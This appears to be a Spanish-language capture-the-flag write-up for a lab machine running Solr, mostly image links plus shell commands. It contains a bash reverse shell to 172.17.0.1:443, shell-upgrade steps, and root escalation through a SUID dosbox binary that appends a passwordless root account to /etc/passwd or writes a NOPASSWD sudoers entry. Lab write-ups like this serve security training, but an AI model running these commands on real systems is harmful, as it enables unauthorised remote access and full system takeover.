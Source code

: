 ![](images/images-eclipse/Pasted%20image%2020250318212605.png)

![](images/images-eclipse/Pasted%20image%2020250318212819.png)

![](images/images-eclipse/Pasted%20image%2020250318212838.png)

![](images/images-eclipse/Pasted%20image%2020250318213712.png)

![](images/images-eclipse/Pasted%20image%2020250318214422.png)

![](images/images-eclipse/Pasted%20image%2020250318214934.png)

```bash
bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'
```

![](images/images-eclipse/Pasted%20image%2020250318215349.png)


Sanitizacion de la shell (TTY):

Copy

```bash
script /dev/null -c bash
```

Copy

```bash
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

una vez adentro pudimos ver el historial del usuario:
``` bash
ninhack@beb59094ca80:~$ cat .bash_history
cat .bash_history
wget https://archive.apache.org/dist/lucene/solr/8.3.1/solr-8.3.1.tgz
tar -xvzf solr-8.3.1.tgz 
ls -al
cd solr-8.3.1
ls -al
cd ..
mv solr-8.3.1 /opt/solr
exit
bin/solr create_core -c 0xDojo
sudo apt install default-jdk
exit
bin/solr create_core -c 0xDojo
bin/solr start
bin/solr create_core -c 0xDojo
exit
exit

```

No hay nada ahí, tampoco en por sudo, pero por SUID:
```bash
find / -perm -4000 -ls 2>/dev/null
...
9614   2504 -rwsr-xr-x   1 root     root   560896 Sep 19  2022 /usr/bin/dosbox

```


```bash
LFILE_PASSWD='/etc/passwd'
/usr/bin/dosbox -c 'mount c /' -c "echo 'TioGilip0llas::0:0::/root:/bin/bash' >> c:$LFILE_PASSWD" -c exit

su TioGilip0llas -s /bin/bash
```

En caso de que exista retorno de carro en las lineas de /etc/passwd (limpiar archivo)
```bash
LFILE_SCRIPT='/tmp/clean.sh'
echo -e '#!/bin/sh\nsed -i "s/\\r//g" /etc/passwd' | /usr/bin/dosbox -c 'mount c /' -c "echo - > c:$LFILE_SCRIPT" -c exit

/usr/bin/dosbox -c 'mount c /' -c "chmod +x c:$LFILE_SCRIPT" -c exit

/usr/bin/dosbox -c 'mount c /' -c "c:\\tmp\\clean.sh" -c exit
```

Una opción más 
``` bash
ninhack@7046aae9dd7c:~$ echo $LFILE_SUDOERS
\etc\sudoers.d\ninhack
ninhack@7046aae9dd7c:~$ /usr/bin/dosbox -c 'mount c /' -c "echo ninhack ALL=(ALL) NOPASSWD: ALL >c:$LFILE" -c exit

DOSBox version 0.74-3
Copyright 2002-2019 DOSBox Team, published under GNU GPL.
---
ninhack@7046aae9dd7c:~$ sudo su
root@7046aae9dd7c:/home/ninhack# 

```
